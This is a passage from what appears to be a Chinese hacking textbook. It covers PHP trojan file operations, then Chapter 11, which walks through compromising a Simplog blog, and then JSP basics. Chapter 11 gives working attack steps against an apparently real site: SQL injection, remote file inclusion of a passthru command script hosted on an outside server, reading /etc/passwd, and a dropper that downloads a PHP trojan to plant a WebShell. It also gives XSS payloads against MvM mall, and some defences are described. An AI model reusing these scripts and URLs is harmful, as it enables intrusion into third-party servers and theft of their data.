文件操作是一个木马最基本的功能，在 PHP 下对于文件的操作主要有 `fopen()`、`fread()`、`fclose()` 这三个函数，利用它们就可以完成这些功能了。不过在使用它们的过程中需要在前面使用容错符号 `@`，这样就算发生错误也不会使系统崩溃或其他情况。因为在 `magic_quotes_gpc = on` 时会对一些字符进行转换，所以在 `magic_quotes_gpc = on` 时，就必须对参数都进行转换，这样才能成功完成对文件的操作。采飞扬 PHP 微型木马客户端为我们提供了对字符进行转换的功能，如图 10-29 所示。
图 10-29 字符转换工具

例如，我们要读取 `c:/boot.ini` 中的内容，首先将 `c:/boot.ini` 进行转换，结果为 `chr(99).chr(58).chr(47).chr(98).chr(111).chr(111).chr(116).chr(46).chr(105).chr(110).chr(105)`。我们来完成对这个文件的读取：

```php
$filename=chr(99).chr(58).chr(47).chr(98).chr(111).chr(111).chr(116).chr(46).chr(105).chr(110).chr(105);
$fp=@fopen($filename,"r");
$contents=@fread($fp, filesize($filename));
@fclose($fp);
```

对文件的复制也是木马的一个基本功能，在 PHP 中使用 `copy()` 函数即可完成这个功能了。例如把 `c:/wwwroot/php/hack.txt` 复制到 `c:/wwwroot/hack.txt` 中去，代码如下所示：

```php
$a="c:/wwwroot/php/hack.txt";  // 要复制的源文件
$b="c:/wwwroot/hack.txt";      // 复制后的文件路径及文件名
echo @copy($a,$b);
```

我们还可以对文件进行重命名，使用 `rename()` 函数就可以完成这个功能了，如将 `c:/wwwroot/` 下的 `hack.txt` 文件改名为 `script.txt`，代码如下：

```php
$a="c:/wwwroot/hack.txt";    // 要改名的文件
$b="c:/wwwroot/script.txt";  // 改名后的文件
echo @rename($a,$b);
```

当然，删除文件操作也是必须有的，使用 `unlink()` 函数即可完成这个功能，如将 `c:/wwwroot/script.txt` 文件删除掉，代码如下所示：

```php
$a="c:/wwwroot/script.txt";  // 要删除的文件
echo @unlink($a);


```

不过需要注意的是如果 `magic_quotes_gpc = on`，那么我们的变量 `$a` 和 `$b` 就需要进行字符转换才能够完成赋值操作。

到这里，我们的 PHP 程序中常见的漏洞就讲完了。虽然不敢说已经对 PHP 程序中出现的各种漏洞都已经讲到，但常见的、大部分漏洞及安全问题都已经提及到了。学习了这些知识并不是说你就可以找出一个系统中的漏洞了，关键是要自己灵活运用，而且黑客技术更新非常快，一定记得天天学习。

**声明：** 本章中的很多优秀技术和技巧都是来源于互联网，非常感谢他们，而且版权还是属于他们。

你从本章可以学到如下几点：

- 1. PHP 系统中注入漏洞分析
- 2. 远程执行命令漏洞的分析与利用
- 3. 上传 WebShell 技巧
- 4. 网站漏洞跟踪分析
- 5. PHP 程序中常见漏洞防护

## 第十一章 PHP 整站系统的安全性分析

通过前面的学习，大家已经对 PHP 下的各种黑客技术及 PHP 代码漏洞分析都有一定的认识了。通过前面打下的基础，本章就带领大家分析完整的 PHP 系统。分析 PHP 系统漏洞的思路和 ASP 下是一样的，有了基础之后，分析最重要的还是思路。下面就是两个完整分析 PHP 系统漏洞的例子，大家要从中学到分析漏洞的经验。

### 11.1 Simplog 系列漏洞分析

Simplog 是一款简单易用的 Blog 程序，用 PHP 编写，兼容很多数据库，例如 DB2、Firebird、FrontBase、MS SQL Server、MySQL、Oracle 等等。这个系统在全世界范围内使用得比较广泛，利用 Google 搜索关键字“Powered by Simplog”就可以找出使用这个系统的网站了，如图 11-1 所示。
图 11-1 搜索使用 Simplog 系统的网站

虽然在功能上它非常强大，可是其安全性确有待提高。这个系统曾出现过多个安全漏洞，如在包含文件前没有正确验证“doc/index.php”中的“s”参数，导致可以包含任意外部或本地资源文件；在 SQL 查询中使用之前没有正确过滤“index.php”中“blogid”参数以及“archive.php”中“blogid”“m”和“y”参数的输入，导致可以通过注入任意 SQL 代码操控 SQL 查询等等。

对于这个系统的分析，小天有非常深刻的研究。所以这里我就引用小天对 Simplog 系统安全分析的文章来向大家展示如何分析一个完整 PHP 系统的漏洞。这里我们用 http://www.***olshed.net/simplog/index.php 来作为测试目标。

#### 漏洞一、暴露绝对路径

我们打开上面的网址，随便选择一篇文章阅读，会看到地址栏上的路径类似于 http://www.***olshed.net/simplog/archive.php?blogid=1&pid=3 这样的。该路径显示的是 blogid 为 1、pid 为 3 的文章；其中 pid 就是文章的序号，我们可以把 pid 的 3 换成字母 k，然后提交：

http://www.***olshed.net/simplog/archive.php?blogid=1&pid=k

就可以如图 11-2 所示，暴出绝对路径了；也可以直接提交：

http://www.***olshed.net/simplog/archive.php?blogid=A

如图 11-3 所示；或者干脆提交：

http://www.***olshed.net/simplog/archive.php

都可以暴出绝对路径。
图 11-2 改 pid 为 k 暴出路径
图 11-3 提交 blogid 为 A 也可以暴出路径

像这里我们暴出的路径就是：/home/pwood001/public_html/simplog/adodb/adodb-errorhandler.inc.php。但是只暴出路径好像也不算什么大漏洞，也没有什么实在的利用价值，只能看些文件目录的层次信息，算一个鸡肋。

#### 漏洞二、SQL 注入漏洞分析

在 SQL 风靡一时的今天，Simplog 也不例外地存在 SQL 注入漏洞。在其 index.php 中有这么一段代码如下：

```php
<?
//----省略一些无关代码----
$blogid = $_REQUEST['blogid'];
if(!isset($blogid)) {
    $blogid = 1;
}
$blogInfo = new BlogInfo($blogid);
include("header.php");
?>
```

在 archive.php 文件中存在这样一段代码：

```php
<?php
//----省略一些无关代码----
if(!isset($_REQUEST['blogid'])) {
    $sql = "select * from blog_list";
    $r = $db->Execute($sql);
    $blogid = $r->blog_id;
} else {
    $blogid = $_REQUEST['blogid'];
}
//----省略一些无关代码----
?>
```

看上面的两段代码，在 index.php 和 archive.php 这两个文件中，$blogid 这个参数都是直接由 $_REQUEST 获得；大家查 PHP 手册可以知道：自动全局变量 $_REQUEST 包含 $_POST、$_GET、$_COOKIE 这三种取值方式。那我们就可以通过这三种方式提交 $blogid，它没做任何过滤就去查询了，所以在这里就出现了一个 SQL 注入漏洞。我们即可用 UNION 查询管理员账号和密码，但是这个系统的密码是 MD5 加密的，利用价值不大，我们先放一放。

#### 漏洞三、远程执行命令漏洞

继续看还有没有更容易利用的漏洞，在 doc/index.php 的 11-17 行可以看到这样的代码：

```php
<?php
if(isset($_REQUEST['s'])) {
    include($_REQUEST['s'].".html");
}
?>
```

大家可以看到 $_REQUEST['s'] 这个值没有进行任何过滤就加上了后缀 .html，那我们就可以自己构造这个 $_REQUEST['s'] 值，进而构造出恶意 .html 文件来利用了。在 $_REQUEST 的三种取值方式里，在这里随便使用一种就可以，我们选取最方便的 $_GET，即直接提交我们构造的参数给 s 就可以利用了。

我们的思路是这样的：把执行命令的语句保存为 HTML 格式，放在我们自己的服务器上，在目标主机的 allow_url_fopen = On 的条件下（这个条件一般都是满足的），就可以请求我们构造的 HTML 文件来执行命令了。

首先我们写一段执行命令的脚本，语句和注释如下：

```php
<?php
if (get_magic_quotes_gpc()) {
    $_REQUEST["cmd"] = stripslashes($_REQUEST["cmd"]);
}  //提取 cmd 的值
ini_set("max_execution_time",0);
echo "<br>I.S.T<br>";              //返回值的开始，为了区分返回值
passthru($_REQUEST["cmd"]);        //把 cmd 的值用 passthru 来执行
echo "<br>I.S.T<br>";              //返回值的结束，为了区分返回值
?>


```

这段代码的意思就是：取得 cmd 的值，然后调用 passthru 来执行它。我们把这段代码保存为 cmd.html（保存的文件名字随便，但是后缀一定得是 .html），把它上传到我自己的服务器上，得到地址是：http://www.iceskysl.net/cmd.html，OK！现在我们就可以来利用了。

我们提交 s 为 http://www.iceskysl.net/cmd，则按照上面的代码执行，得到 $_REQUEST['s'] 为 http://www.iceskysl.net/cmd，然后加上后面的 .html，就会去打开 http://www.iceskysl.net/cmd.html 这个文件了。我们再用 cmd 提交命令参数，就可以执行该命令了。例如我们想查看目标主机名，则在 UNIX 下使用 hostname 命令，所以提交 cmd 为 hostname，则完整的路径就是：

http://www.***olshed.net/simplog/doc/index.php?cmd=hostname&s=http://www.iceskysl.net/cmd

可以看到图 11-4 的返回结果显示其主机名为 twx3.tdmwebx.com。
图 11-4 查看目标主机名

按照这样的方式我们可以执行很多命令来获得更多的信息。我们尝试看能不能看到 /etc/passwd 的值，和上面的原理一样，修改 cmd 值为 cat /etc/passwd，提交如下地址：

http://www.***olshed.net/simplog/doc/index.php?cmd=cat%20/etc/passwd&s=http://www.iceskysl.net/cmd

就可以顺利显示 /etc/passwd 的值，如图 11-5。
图 11-5 显示 /etc/passwd 的信息

在上面得到的是 /etc/passwd 信息，从中可以得到账号，但是其密码是系统加密后放在 /etc/shadow 中的，只有超级用户才能查看。我尝试执行 cat /etc/shadow 没有成功。到这里我们有个思路：用流光之类的工具提取上面显示的账号进行暴破，如果能找到几个弱口令，就能 Telnet 或 SSH 上去得到 SHELL 了。我机子配置不行，也懒得去跑，再换思路！

#### 漏洞四、上传 WebShell

上面我们可以得到账号信息，但是苦于没有密码还是没办法登录上去，又不想去跑密码，我们就可以按照上面的思路来想问题了：我们可以构造一个写文件的“HTML”文件读取我们的木马，然后写到目标主机上，就可以得到 WebShell 了。说干就干！如下构造语句：

```php
<?
$f=file_get_contents("http://www.iceskysl.net/1stphp.txt");
$ff=fopen("../doc/pp.php","a");
fwrite($ff,$f);
fclose($ff);
?>


```

解释一下，1stphp.txt 是我的一个 PHP 木马文件，也放在我服务器上，地址是：http://www.iceskysl.net/1stphp.txt。先用 file_get_contents 与其连接，然后建立一个 pp.php 的文件，并把上面取得的内容写进去，最后关闭连接。

把这个文件保存为 creatfile.html，然后上传到我自己的服务器上，得到地址是：http://www.iceskysl.net/creatfile.html，然后我们就提交 s 为 http://www.iceskysl.net/creatfile，得到下图 11-6 的信息。
图 11-6 提交 creatfile 后返回信息

看到返回的信息是：

```text
Warning: fopen(../doc/pp.php): failed to open stream: Permission denied in http://www.iceskysl.net/creatfile.html on line 3
```

看来我们请求的 doc 目录是不可写操作，我们的马就写不进去。怎么突破？只能找能写的目录或者文件。幸好我们上面可以执行命令，那我们就可以提交 cmd 为 ls -la 来查看文件和目录的属性，于是提交：

```text
http://www.***olshed.net/simplog/doc/index.php?cmd=ls%20-la&s=http://www.iceskysl.net/cmd


```

返回图 11-7，这个就是 doc 文件夹下的所有文件和目录以及其各自属性。
图 11-7 提交 ls -la 查看文件和目录属性

怎么知道哪个目录或文件允许写操作呢？这就涉及到 UNIX 的基本知识了：在 UNIX 下文件属性是用读(r)、写(w)、执行(x) 来表示的，分为 3 组，分别代表 root、owner、everyone。所以我们需要找的是 rwxrwxrwx 这样的属性。你可以点右键查看源码，在里面搜索有没有这个字符串。我用的 FireFox 浏览器，该浏览器具有在当前网页内搜索的功能，直接搜索 rwxrwxrwx 就能看到有这样的目录或文件了。

上面我们没有发现，就用 ../ 跳转查看其他目录下的文件和目录。当我提交：

```text
http://www.***olshed.net/simplog/doc/index.php?cmd=ls%20-la%20../../..&s=http://www.iceskysl.net/cmd


```

时返回图 11-8 所示。
图 11-8 提交 ls -la ../../ 的返回结果

在上面我们看到有两个目录 myblog 和 phpBB2 的属性如下：

```text
drwxrwxrwx 15 pwood001 pwood001 4096 Apr 12 16:18 myblog
drwxrwxrwx 11 pwood001 pwood001 4096 Apr 13 09:07 phpBB2
```

前面的 d 说明是目录，其属性是允许任何人读、写、执行的。找到了就好办了，我们就在 phpBB2 这个目录里写木马。

修改上面的 creatfile.html 内容为：

```php
<?
$f=file_get_contents("http://www.iceskysl.net/1stphp.txt");
$ff=fopen("../../phpBB2/ist.php","a"); //主要是改这里的路径
fwrite($ff,$f);
fclose($ff);
?>


```

就是修改上面写入木马的路径为 phpBB2 下就可以了。修改好后重新上传到我自己的服务器上，地址还是前面说的那个。接着依然提交：

http://www.***olshed.net/simplog/doc/index.php?s=http://www.iceskysl.net/creatfile

返回如图 11-9 所示。
图 11-9 修改 creatfile 后重新提交

看到图 11-9 没有，像图 11-6 一样没有返回错误，不晓得成功了没。要是成功就会按照 creatfile.html 语句写一个 ist.php 的木马到 phpBB2 目录下。于是提交：

http://www.***olshed.net/simplog/doc/index.php?cmd=ls%20-la%20../../phpBB2&s=http://www.iceskysl.net/cmd

看 ist.php 是不是存在了，得到图 11-10 所示。
图 11-10 提交 ls -la ../../phpBB2 查看是否生成 ist.php

在图 11-10 中看到了存在 ist.php，那我们就可以直接请求它的路径 http://www.***olshed.net/phpBB2/ist.php，得到 WebShell 了，如下图 11-11。
图 11-11 得到 WebShell

后记：

本文是我测试时的一个完整思路，按照我的思路一步接着一步。后来写完了回头重新测试了一下，发现自己比较大意，没有发现 Simplog 的 cache 目录也是可写的。大家利用时可直接在这个目录里写 WebShell。其实仔细想想也是，cache 是随时都可能生成的，肯定需要写权限啦。害我还绕到更上层的 phpBB2 目录写 WebShell，不过也不亏，至少提醒我下次要更细心，也告诉了你：遇到障碍时，想别的办法突破，千万别在一棵树上吊死！

### 11.2 PHP 系统常见防护措施及问题

#### ——记对 MvM mall V.3.5.0 系统的分析结果

前面，我们已经多次详细讲解 PHP 下的各种漏洞代码，上一节也分析了 Simplog 系统的漏洞。可能有人会觉得这样分析漏洞很简单嘛，实际上并非如此。现在越来越多的程序员认识到了这些攻击的危害性，所以如今大部分系统都对参数进行了相应的处理。所以目前要找到一个完全没有过滤参数的系统基本上是很难了。

所以，目前要找一个系统中的漏洞，完全是从大量的参数中筛选出少数没过滤的变量。要找这些少数参数，就要求我们在分析代码的时候要非常仔细和认真。同时我们还要了解一些程序员是如何防范这些漏洞产生的，争取做到攻防兼备。本节我通过分析 MvM mall V.3.5.0 系统来为大家介绍在 PHP 系统中常见的防护措施，并从中找出程序员的一些大意或者失误的问题，使得我们仍然能够继续攻击。

MvM mall 是一套基于 PHP+MYSQL 的商务系统，目前最新版本是 V.3.5.0。经过几次升级，目前安全性比较高了。基本上不存在注入、文件包含之类比较明显的漏洞了。不过虽然已经过滤得比较严格了，但还是有一些地方做得不够完善，导致出现了一些跨站漏洞。下面就来仔细谈谈这个系统的跨站漏洞及防护措施。

先还是来谈谈跨站漏洞。本来这个系统大部分可以输入数据的地方都过滤得比较干净了，可能是由于程序员的疏忽，使得跨站漏洞重现了。有两处地方出现了跨站漏洞，一是发生在修改个人注册资料文件中，另一个是在留言文件中。

我们在注册一个会员后还可以修改我们注册时的资料，修改资料的界面如图 11-12 所示。
图 11-12 修改注册资料

问题就出在了姓名、联系地址、自我介绍三个地方，这三个变量在客户端中的变量名为：

```html
姓名：<input name="name" type="text" class="gray_input" size="23" value="haha">
</td>
联系地址：<input name="address1" type="text" value="haha" class="gray_input" size="50" maxlength="100">← 此地址用于邮寄奖品或信件</td>
</tr>
<tr>
……省略代码
<td class="mem_frm">
自我介绍:<textarea class="textarea" rows="10" name="intro" cols="70">haha</textarea></td>
</tr>
```

从中可以得到姓名的变量名为 name、联系地址变量名为 address1、自我介绍变量名为 intro。我们再来看在服务端这些数据是如何被放入到数据库中的，如下代码：

```sql
$query = " update $morning_member_table set
            member_pass       = '$insert_pass',   //密码
            member_name       = '$name',          //姓名
            member_sex        = '$sex',
            member_birthday   = '$birthday',
            member_tel1            = '$tel1',
            member_tel2            = '$tel2',
            member_email           = '$email',      //电子邮件
            member_zip             = '$zip',
            member_address         = '$address1',   //联系地址
            member_homepage        = '$homepage',   //主页
            member_automail        = '$automail',
            member_recommend       = '$recommend',
            member_interest        = '$textarea',   //自我介绍
            member_hobby           = '$hobby',
            member_religion        = '$religion',
            member_blood           = '$bloodtype',
            member_job             = '$job',
            member_jobname1        = '$jobname1',
            member_jobname2        = '$jobname2',
            member_tel4            = '$tel4',
            member_jobzip          = '$jobzip',
            member_jobaddress      = '$address2',
            member_marriage        = '$marriage',
            member_marriageday     = '$marriageday',
            member_introduction    = '$intro',
            member_main            = '$main',
            member_image           = '$member_file_text',
            modify_id              = '$g_check_id',
            modify_ip              = '$g_user_ip',
            modify_date            = '$g_now_time'
where member_id = '$g_check_id"';

morning_query_error($query);
error_msg("$lang_member_modify_ok","logout.php?url=m_login.php");
exit;
}
```

上面更新的数据很多，有一些是隐藏的，我们只需要注意我们注释的变量即可。可能大家对以 member 开头的变量有一些不明白，开始我也是一样的。不过后来看到了文件 m_member_modify.php 中的一小段代码，如下所示：

```php
if(is_dir("$g_mall_skin_dir/$cf_skin_name"))
{ include "$g_mall_skin_dir/$cf_skin_name/mall_member_modify.html";
} else { include "$g_mall_skin_dir/default/mall_member_modify.html"; }


```

即修改页面是由 mall_member_modify.html 在客户端显示，打开这个文件，如图 11-13 所示。
图 11-13 变量的值

可以发现 name 的值为 $list[member_name]，详细的代码如下：

```html
姓名：
<input name="name" type="text" class="gray_input" size="23" value="<?=$list[member_name]?>">

............省略代码
联系地址：
<input name="address1" type="text" value="<?=$list[member_address]?>" class="gray_input" size="50" maxlength="100">← 此地址用于邮寄奖品或信件</td>

............省略代码
<td class="mem_frm">身份证号码：<font color="#FF6600">*</font></td>
<td class="mem_frm2"><?= $jumin1?>****************</td>
</tr>
<tr>
............省略代码
自我介绍：
<td class="mem_frm2"><textarea class="textarea" rows="10" name="intro" cols="70"><?=$list[member_introduction]?></textarea>


```

这下就可以知道 name 的值为 member_name、address1 的值为 member_address、intro 的值为 member_introduction，当我们输入数据之后，数据被赋值给这些变量。

这下我们就可以看懂在服务端的数据更新操作代码了吧，他们这些变量都是没有经过任何处理就进行更新操作了，即产生了跨站漏洞。我们分别在姓名、联系地址、自我介绍都输入跨站代码，不过在联系地址直接输入会被封闭，所以要输入 `"><script>alert("联系地址跨站")</script><"` 即可跨站，如图 11-14 所示。
图 11-14 联系地址跨站

而自我介绍处输入 `</textarea></td><script>alert("自我介绍跨站")</script><td><textarea>` 就可以实现跨站了，如图 11-15 所示。
图 11-15 自我介绍跨站

姓名则是输入 `"><script>alert("cmd")</script>` 就可实现跨站了，而且由于在我们登录后的每一个页面都会显示姓名，所以我们每一个页面都会发生跨站，如图 11-16 所示。
图 11-16 姓名跨站

该系统还有一个地方存在跨站漏洞，就是留言板（评论），和上面的修改个人资料一样，没有经过任何的过滤，而且处理代码也是一样。只是把 update 改成了 insert 语句，存在跨站漏洞也就自然了，如图 11-17 和 11-18 所示。
图 11-17 输入跨站代码
图 11-18 发生跨站

对于上述的跨站漏洞还算比较明显，不过要从众多的代码中分析出漏洞也比较费劲。我们只需要把这些变量用 htmlspecialchars() 函数转换一下即可防御。

要从更为安全的系统中找出漏洞，则更加要仔细了，找出每一个变量的去处。上面我们说的漏洞都是没有经过任何的检测和过滤而导致的，那么在实际的编程过程中，我们又该如何进行检查过滤呢？我以 MvM mall V.3.5.0 系统中的代码来简单介绍一些 PHP 下的防护措施，有了对这些防御上的了解，那么在攻击的过程中就会有更加深刻的认识。

在 PHP 下，对于数字型的参数，只需要用函数 intval() 把参数强制性转换成数字即可彻底防御数字型注入漏洞。而对于字符型注入则稍微麻烦一些，我以 MvM mall V.3.5.0 中的搜索代码来举例：

```php
if($ps_sele and $ps_ques) {
    if($search_sql) $search_sql = $search_sql." and ";

    if($ps_sele == "subject") {
        $search_sql .= " board_subject like '%$ps_ques%' ";
    }
    //主题搜索，变量名为$ps_ques
    elseif($ps_sele == "content") {
        $search_sql .= " board_body like '%$ps_ques%' ";
    }
    //正文搜索，变量名为$ps_ques
    elseif($ps_sele == "name") {
        $search_sql .= " board_name like '%$ps_ques%' ";
    }
    elseif($ps_sele == "sub_plus") {
        $search_sql .= " board_subject like '%$ps_ques%' and board_body like '%$ps_ques%' ";
    }
}


```

系统对搜索提供了几种搜索的功能，如主题、正文、名字等等。在客户端中输入的变量名为 ps_ques，在该变量进入查询之前，变量 ps_ques 在 func.php 文件 escape_string 函数中进行了过滤，如图 11-19 所示。
再跟着 escape_string() 函数进去，看这个函数是如何处理参数的，代码如下：

```php
//################################################################################################
// SQL Injection
//################################################################################################
###
function escape_string($str) {
    if(!$str) return;
    // $str = nl2br($str);
    if(version_compare(phpversion(),"4.3.0")=="-1") {
        $str = mysql_escape_string($str);
    } else {
        $str = mysql_escape_string($str);
        // mysql_escape_string 与 addslashes 函数的功能是一样的
        //$str = addslashes($str);
    }
    return $str;
}
```

上面的代码首先判断是否存在变量，如果存在就判断当前 PHP 版本，并用 mysql_escape_string 函数转换参数值，然后返回经过过滤了的参数。如果参数不存在则直接返回。经过我的分析发现 MvM mall V.3.5.0 中的数字型参数都用 intval() 函数转换了，而字符串则全部转换了。

PHP 下还有一个非常大的漏洞就是文件包含，原理就不再重复了。其实对于要包含进来的文件，只需要使用 is_dir() 函数先判断一下包含文件路径是否存在，即可断绝文件包含漏洞的产生，例如 MvM mall V.3.5.0 系统的首页 index.php 的代码如下所示：

```php
if(is_dir("$cf_skin_name"))
    //利用 is_dir()判断$cf_skin_name 路径是否存在
{ include "$cf_skin_name/mall_main.html";
    //如果存在，则包含进来
} else { include "default/mall_main.html"; }
    //如果不存在，则包含已经设定的目录
include "m_bottom.php";
morning_close($connect);
exit;
?>


```

上面简单地介绍了一下在 PHP 程序中如何防御漏洞的发生，不管你是程序员还是想找漏洞的黑客都应该对防御有着深刻的认识。例如，黑客在知道如何防御后，那么在分析代码的时候就可以针对性地去寻找那些没有防御的变量，则分析代码的效率就会大大提高。学黑客技术不仅仅是学攻击，防御也是同等的重要，只要做到了攻防兼备的人才算是一名优秀的黑客。对 PHP 整站系统的漏洞分析到这里也就结束了，希望大家能够从中去总结，通过总结领会一些技巧和经验。

**声明：** 非常感谢小天对 **Simplog** 系统漏洞分析的文章，这篇文章非常优秀，且有代表性。

你从本章可以学到如下几点：

- 1. JSP 的基本语法
- 2. JSP 内置对象及文件操作
- 3. 通过 JDBC 访问数据库
- 4. JavaBean 和 Servlet

## 第十二章 JSP基础

从这一章我们开始 JSP 的学习之旅，还是和前面一样，先给大家讲解 JSP 的基础，之后就开始我们的黑客技术研究，并通过代码分析从中找出 JSP 程序的漏洞。如果大家有 JAVA 基础，那么学习 JSP 会感到比较轻松；如果没有学过 JAVA 也没有关系，跟着我的思路一样可以很好地完成 JSP 的基础学习。

大家如果注意观察的话，会发现使用 JSP 的网站数目在逐渐增加，如图 12-1 所示，利用 Google 得到了目前 JSP 网站的数目。而目前使用 JSP 的网站普遍都是大型网站，这就告诉我们两个方面的信息：一是入侵 JSP 网站的难度相对于 ASP、PHP 网站来说大一些，当然如果入侵成功得到肉鸡的性能也是不一样的，JSP 网站性能相对好一些；二是开源的 JSP 系统比较少，也就是说能够下载到的 JSP 系统代码比较少，因为大型网站的 JSP 系统是肯定不开源的。
图 12-1 目前使用 JSP 的网站大概数目

### 12.1 JSP概述

JSP 是 Java Server Pages 的缩写，它是由 SUN 公司倡导，于 1999 年推出的一种 WEB 动态网站开发技术。JSP 充分利用 JAVA 技术的优势，具有极强的扩展能力和良好的伸缩性，与开发平台无关，这是源于 JAVA 的“一次编写，到处运行”的特点，同时也是一项安全技术。它具有良好的动态页面与静态页面分离能力，通过编译后运行。它一经推出之后就受到了广大程序员的喜爱，发展相当快，现在应该算是第三大脚本语言了。利用 JDBC 技术使得 JSP 具有良好的数据库访问能力。我们在 HTML 页面中加入 Java 程序片段就成为 JSP 网页。

相对于其他 B/S 模式下的动态网页技术，JSP 具有以下优势：

- 1. 跨平台性：ASP 只能够运行在 Windows 平台下，而 JSP 是基于强大的 Java 语言，可以在几乎所有的操作系统平台下运行。JSP 从一个平台移植到另一个平台，JSP 和 JavaBean 甚至不需要重新编译，因为 JSP 被编译后的字节码是与平台无关的。
- 2. 一次编写，到处运行：JSP 拥有 Java 语言“一次编写，到处运行”的特点，所有的 JSP 页面被 JSP 引擎编译成 Java Servlet。这就有了 Java 技术的所有优点，其他的 B/S 模式技术则没有这个优点。
- 3. 编写容易，快速上手：学习 JSP 和 ASP 一样，可以非常快地上手。当然必须要有 HTML、JavaScript 基础，有 Java 基础就是最好的了。
- 4. 可重用性：可以将复杂的处理封装在 JavaBean 或 EJB（Enterprise JavaBeans）组件中，再通过 JSP 调用将处理的结果显示出来。这样，一方面使得开发组件的开发人员可以专注于组件开发；另一方面编写 JSP 的开发人员可以在多处使用组件，而不必关心其实现细节，而且修改组件只须改动组件内部设计而不必更改 JSP 代码，从而大大提高了系统的可重用性。在这个方面 PHP 是无法与 JSP 比拟的，而 ASP 支持的组件技术也比较有限，不如 JSP 丰富。
- 5. 数据库连接技术：JSP 程序通过 JDBC（Java Database Connectivity）驱动程序与数据库连接。目前很多数据库带有 JDBC 驱动程序，而对于没有自带的，可以利用 JDBC-ODBC 方式与 ODBC 驱动连接。而绝大多数数据库都带有 ODBC 驱动，这样也使得 JSP 程序可以访问绝大多数数据库系统。

### 12.1.1 JSP运行原理

图 12-2 所示的就是 JSP 运行原理图。当 Web 服务器上第一个 JSP 页面被第一次请求执行时，JSP 引擎首先将 JSP 页面文件转译成一个 Java 文件，即 Servlet。Java Servlet 是基于服务器端编程的 API，用 Java Servlet 编写的 Java 程序称为 Servlet，它通过 HTML 与客户端进行交互。服务器将前面转译成的 Java 文件编译成字节码文件，再执行这个字节码文件来响应客户请求。也正是因为这个字节码使得 JSP 具有跨平台性。当这个 JSP 页面再次被请求时，将直接执行编译生成的字节码来响应，从而加快执行速度。这也是为什么 JSP 比 ASP 运行更快的原因。还有一点大家要清楚：ASP、PHP 等脚本语言都属于解释性语言，而 JSP 属于编译性语言。
图 12-2 JSP 运行原理图

### 12.2 第一个 JSP 页面

在第一章中已经给大家讲授了如何搭建 JSP 服务器，相信大家已经掌握了。如果还有什么不懂的地方，可以参考第一章。下面我们就来简单地编写一个 JSP 程序。编写 JSP 代码我们可以使用记事本，也可以使用具有强大功能的编辑工具，例如 Dreamweaver 等。程序的代码如下所示。

```html
<%@ page contentType="text/html;charset=gb2312"%>
<html>
<head>
<title>第一个 JSP 页面</title>
</head>
<body>
<br>
<%
out.println("这是一个简单的 JSP 页面");
%>
</body>
</html>


```

编写好上面的代码之后保存，注意要将文件扩展名保存为 jsp。在服务器下运行之后就可以看到它的结果了，如图 12-3 所示。
图 12-3 第一个程序运行的结果

在上述程序代码中，JSP 中的 Java 程序片段用“<%”和“%>”括起来了。为了在页面中支持中文显示，在页面的第一句中加入语句：

```html
<%@ page contentType="text/html;charset=gb2312"%>
```

如果没有加入这一条语句，那么中文文字将会显示为乱码。至于代码中的 HTML 代码我就不再浪费时间了，如果还有不清楚的网友可以去参考第三章。要注意的是 HTML 对大小写不敏感，但 JSP 程序代码对大小写敏感。out.println 语句的功能就是向浏览器输出括号中的内容，这里输出的是“这是一个简单的 JSP 页面”。

## 12.2 JSP语法

这一节给大家讲授 JSP 的语法知识，这些是进行 JSP 程序漏洞分析的坚固基石，所以最基础的知识，大家一定要融会贯通地掌握它。

在上一节也提到了，在 HTML 页面中插入 Java 程序就成了 JSP 页面程序。所以在 JSP 中包含了两种主要内容：一是 HTML 语言，这是静态内容；二是 Java 程序及其相关元素，这是动态内容。Java 程序及其相关元素包括了 Java 程序片、表达式、JSP 指令与动作标签，以及 Java 变量、方法和类的声明。动态内容将由 JSP 服务器负责执行，结果转换为字符串，然后把结果和静态内容一起交给客户端浏览器显示出来。

#### 12.2.1 类

在 Java 中，数据类型可分为两种：简单数据类型和复合数据类型。简单数据类型包括整数、实数、布尔数、字符等，是内置的数据类型，和我们前面讲的那些数据类型是一模一样的；复合数据类型就是由简单数据类型组合而成，如类、接口等。

在 Java 中，标识符用来标识变量、类、方法、对象、接口和包，需要注意的是它对大小写敏感。

类在第九章（PHP 基础）中已经介绍了，相信大家还没有忘记吧。因为类比较重要，所以这里再重复一遍。在这里大家可以把类理解为一种新的数据类型，一旦声明后，就可以用它来创建对象了。类就是对象的模板，对象就是类的实例，所以要使用对象，先要定义类。类中包括数据和代码两个部分。数据是类中的实例变量，代码是类中的方法，两者都是类的成员。

下面是一段简单的类声明及对象声明的程序代码。

```java
class ScriptHack{                //定义一个类
    int asp;
    int php;
    int jsp;
}
ScriptHack hack = new ScriptHack();  //声明一个类的实例，即一个对象
```

上面的代码首先定义了一个类 ScriptHack，即脚本黑客。它有三个数据：asp、php、jsp。定义后并不会生成实际的对象实例，所以接下来就是声明这个类的一个实例，即一个对象，对象名称为 hack。大家如果还记得在 PHP 中声明对象的方法的话，会发现 Java 声明对象有一些不同。在 Java 中声明一个对象的一般形式为：

```java
类名 对象变量 = new 类名(参数1, 参数2......);
或者
类名 对象变量;
对象变量 = new 类名(参数1, 参数2......);
```

声明了对象后，要使用类中的数据或方法，用“.”运算符，左边是对象名，右边是数据或方法名。如果要把 hack 的 jsp 数据设置为 computer，则用如下语句：

```java
hack.jsp=computer;
```

类的方法用来实现类所需要的一些功能，定义方法的格式为：

```java
type method_name(parameter_list)
{
}
```

type 指明了方法返回数据的数据类型，如果不返回任何数据则类型为 void。method_name 是方法名称，parameter_list 是传递给方法的参数列表，花括号中间为方法体，即实现方法的程序代码。

有的时候，一个方法需要引用调用它的对象，这个时候我们可以用 this 关键字来替代类名。对于 Java 中的继承，和我们前面第九章中讲的差不多，所以这里对于继承就不再重复了。

##### （1）String 类

Java 的字符串常量用双引号（""）括起来，是一串字符串。但 Java 中的字符串是作为一个 String 对象来处理的。在 JSP 中，大量信息是通过字符串进行交互，所以一定要掌握好 String 类的使用。Java 为 String 类提供了丰富的功能特性，下面给大家举一些常见且较为重要的特性。

- 1. 构造函数

String 类提供了几种构造函数，它的作用是初始化 String 对象的值。我们可以用空的构造函数，表示创建一个新的 String 实例，它是一个空字符串，如下所示。也可以用一个字符型数组来构造一个字符串，如下所示的一个程序代码例子，用字符串数组 charstemp 作为字符串 s 的初始值。还可以使用下面的构造函数把一个字符串数组的一部分作为初始值，格式如下。第一个参数为字符数组，第二个参数为指定部分开始处的数组下标，第三个参数为从第二个参数开始处所取的个数。需要注意的是数组的下标是从 0 开始的，如下所示，我们用字符 bc 来初始化 s。

```java
String s = new String();
char charstemp[] = {'a','b','c','d','e'};
String s = new String(charstemp);
String(char chars[], int startIndex, int numChars);
